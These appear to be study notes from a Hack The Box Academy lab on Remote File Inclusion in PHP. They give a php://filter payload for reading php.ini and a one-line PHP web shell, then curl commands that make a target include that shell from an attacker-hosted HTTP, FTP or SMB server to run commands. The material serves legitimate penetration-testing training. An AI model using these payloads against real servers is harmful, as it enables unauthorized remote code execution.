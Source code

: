 yWe may also be able to include remote files "[Remote File Inclusion (RFI)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion)", if the vulnerable function allows the inclusion of remote URLs. This allows two main benefits:

1. Enumerating local-only ports and web applications (i.e. SSRF)
2. Gaining remote code execution by including a malicious script that we host

In this section, we will cover how to gain remote code execution through RFI vulnerabilities. The [Server-side Attacks](https://academy.hackthebox.com/module/details/145) module covers various `SSRF` techniques, which may also be used with RFI vulnerabilities.

### Verify RFI
Any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled.

We can use the LFI vulnerability
```bash
php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini
```

```bash
adot8@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP' | base64 -d | grep allow_url_include

allow_url_include = On
```

We can test RFI using the current page and localhost IP
```bash
curl http://10.10.10.10/index.php?language=http://127.0.0.1:80/index.php
```

If It's the same we can do the following

#### HTTP
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php

updog -p 80
```

```bash
curl http://10.10.10.10./index.php?language=http://10.10.15.155/shell.php&cmd=id
```

#### FTP
```bash
python -m pyftpdlib -p 21
```

```bash
curl http://10.10.10.10./index.php?language=ftp://10.10.15.155/shell.php&cmd=id
```

#### SMB
```bash
impacket-smbserver -smb2support share $(pwd)
```

```bash
curl http://10.10.10.10./index.php?language=\\10.10.15.155\share\shell.php&cmd=id
```